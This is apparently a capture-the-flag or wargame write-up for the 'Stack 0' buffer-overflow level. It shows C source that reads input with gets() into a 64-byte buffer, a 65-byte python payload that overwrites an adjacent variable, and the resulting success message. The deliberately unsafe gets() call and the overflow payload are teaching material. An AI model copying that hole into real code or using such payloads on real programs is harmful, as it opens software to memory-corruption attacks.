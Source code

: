 # STACK 0

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified; 			// overwrite
  char buffer[64];

  modified = 0;
  gets(buffer); 					// vuln is here

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## IDEA

- Give an input has 64 bytes to overwrite the buffer varibale and write 1 byte to modifide the "modified" variable => we will overwrite 65 bytes

## EXPLOIT

- Payload

```
python -c 'print("a"*65)' | ./stack0
```

## RESULT

```
$ python -c 'print("a"*65)' | ./stack0
you have changed the 'modified' variable
```
